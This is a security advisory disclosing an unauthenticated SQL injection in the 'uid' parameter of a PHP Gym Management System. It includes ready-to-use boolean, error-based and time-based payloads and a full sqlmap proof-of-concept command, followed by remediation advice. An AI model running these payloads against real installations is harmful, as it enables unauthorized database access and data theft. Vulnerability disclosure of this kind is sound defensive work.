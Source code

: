 # **Security Advisory: SQL Injection in Gym Management System (PHP) v1.0**
  
**Discovered By:** l1nk 

---

## **1. Affected Product**
- **Product Name**: Gym Management System in PHP with Source Code  
- **Version**: v1.0  
- **Vulnerable File**: `/dashboard/admin/edit_mem_submit.php`  
- **Parameter**: `uid`  
- **Vendor Homepage**: [Gym Management System](https://codezips.com/php/gymmanagementsytem/)  
- **Download Link**: [Source Code](https://codeload.github.com/codezips/gym-management-system-php/zip/master)

**No authentication required** to exploit this vulnerability.

---

## **2. Overview**
A critical SQL injection vulnerability exists in the `uid` parameter within `/dashboard/admin/edit_mem_submit.php`. Attackers can inject arbitrary SQL code via specially crafted values, bypassing input validation. This could lead to unauthorized database access, data manipulation, and potentially full system compromise.

---

## **3. Technical Details**

### **3.1 Vulnerability Type**
- **SQL Injection**  
  - Boolean-based  
  - Error-based  
  - Time-based blind

### **3.2 Sample Payloads**

```bash

# boolean-based
uid=1529336794' OR NOT 7214=7214-- Ppqk&uname=Christiana Mayberry&gender=Male&phone=3362013747&email=christiani@gmail.com&dob=1968-04-13&jdate=2018-06-18&stname=2069  Quarry Drive&state=NC&city=Greensboro&zipcode=27409&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=UPDATE

# error-based
uid=1529336794' AND GTID_SUBSET(CONCAT(0x716b787871,(SELECT (ELT(7186=7186,1))),0x717a717071),7186)-- bXqU&uname=Christiana Mayberry&gender=Male&phone=3362013747&email=christiani@gmail.com&dob=1968-04-13&jdate=2018-06-18&stname=2069  Quarry Drive&state=NC&city=Greensboro&zipcode=27409&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=UPDATE


# Time-based blind 
uid=1529336794' AND (SELECT 5721 FROM (SELECT(SLEEP(5)))ngfQ)-- WrdR&uname=Christiana Mayberry&gender=Male&phone=3362013747&email=christiani@gmail.com&dob=1968-04-13&jdate=2018-06-18&stname=2069  Quarry Drive&state=NC&city=Greensboro&zipcode=27409&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=UPDATE
```

### **3.3 Proof of Concept (PoC)**
```bash
sqlmap -u "172.20.10.2:2227/dashboard/admin/edit_mem_submit.php" --cookie="PHPSESSID=mrd93ill6876fpomko31optq40" --data="uid=1529336794&uname=Christiana+Mayberry&gender=Male&phone=3362013747&email=christiani%40gmail.com&dob=1968-04-13&jdate=2018-06-18&stname=2069++Quarry+Drive&state=NC&city=Greensboro&zipcode=27409&calorie=111&height=111&weight=111&fat=11&remarks=111&submit=UPDATE" --batch --level=5 --risk=3 --dbms=mysql --random-agent
```

**Screenshots**:  
<img width="1023" alt="image" src="https://github.com/user-attachments/assets/5d9554a6-df46-4f53-892e-89ecf83045b7" />


---

## **4. Impact**
- **Database Compromise**: Attackers can read, modify, or delete data.  
- **Data Leakage**: Sensitive customer/payment information could be exposed.  
- **System Interruption**: Malicious queries may degrade performance or crash the application.  
- **Privilege Escalation**: Potential elevation of privileges leading to broader system takeover.

---

## **5. Recommendations**

1. **Use Prepared Statements / Parameter Binding**  
   - Separate SQL logic from user-supplied data to prevent code injection.

2. **Enforce Strict Input Validation**  
   - Validate and sanitize incoming fields (`uid`) against unexpected characters or formats.

3. **Apply the Principle of Least Privilege**  
   - Configure database users with minimal privileges. Avoid high-privilege accounts for routine queries.

4. **Schedule Regular Security Audits**  
   - Conduct routine code reviews, penetration testing, and dependency checks to catch new or recurring flaws.

---

## **6. References**
- [Gym Management System Homepage](https://codezips.com/php/gymmanagementsytem/)  
- [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)  
- [sqlmap Project](https://sqlmap.org/)

---

**Disclaimer:**  
This advisory is intended for responsible disclosure. Any unauthorized exploitation of the described vulnerability may violate applicable laws. Stakeholders and the vendor are strongly encouraged to apply remediation measures immediately to ensure data protection and maintain system integrity.
